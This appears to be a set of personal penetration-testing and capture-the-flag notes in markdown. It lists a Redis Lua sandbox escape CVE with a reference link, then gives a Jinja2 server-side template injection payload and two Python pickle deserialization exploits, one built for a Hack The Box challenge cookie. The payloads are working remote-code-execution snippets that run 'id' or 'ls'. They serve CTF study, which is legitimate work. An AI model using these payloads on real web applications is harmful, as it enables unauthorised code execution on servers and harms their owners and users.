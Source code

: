 
# Redis - Lua sandbox escape vulnerability (CVE-2022-0543)
**CVE-2022-0543** - Eval command in Redis allows for RCE, hence being able to read files owned by others.
## References
- [https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/#](https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/#)


# Flask
## (Jinja 2) RCE
Server side template injection RCE
```python
{{request.application.globals.builtins.import('os').popen('id').read()}}
```

## Insecure deserialization (Python pickle)
Pickle data unserialization allows for RCE

### Normal exploit
**Note:**  If the encoded cookie doesn't look the same as expected one can edit the *protocol* argument on the `pickle.dumps()` function.
```py
import pickle,os

class Pickle(object):
    def __reduce__(self):
        return os.system, ('id',)

o = Pickle()
print(pickle.dumps(o))
```

### Exploit for HTB challenge (baby website rick)
A cookie from the website can be decoded in *base64* so, that one can see what variables it uses.      
Also, the cookie wasn't edited properly when the script was ran with *python3* so, I decided to run it with *python2*
```py
from base64 import b64encode
import pickle,subprocess

class anti_pickle_serum(object):
    def __reduce__(self):
        return subprocess.check_output, (["ls"],)

dumps = pickle.dumps({"serum": anti_pickle_serum()},protocol=0)
print(b64encode(dumps))
```
